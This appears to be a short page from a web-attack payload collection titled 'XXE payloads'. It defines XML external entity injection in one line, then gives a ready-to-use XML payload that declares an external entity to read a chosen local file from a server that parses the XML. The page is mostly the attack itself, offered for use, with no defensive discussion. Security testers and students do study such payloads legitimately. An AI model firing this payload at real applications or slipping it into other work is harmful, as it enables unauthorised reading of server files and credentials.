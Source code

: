 # XXE payloads

[XML external entity injection (also known as XXE)](https://portswigger.net/web-security/xxe) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.

## Payloads

Show a file.
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file://[PATHTOFILE]'>]>
<root>&read;</root>
```
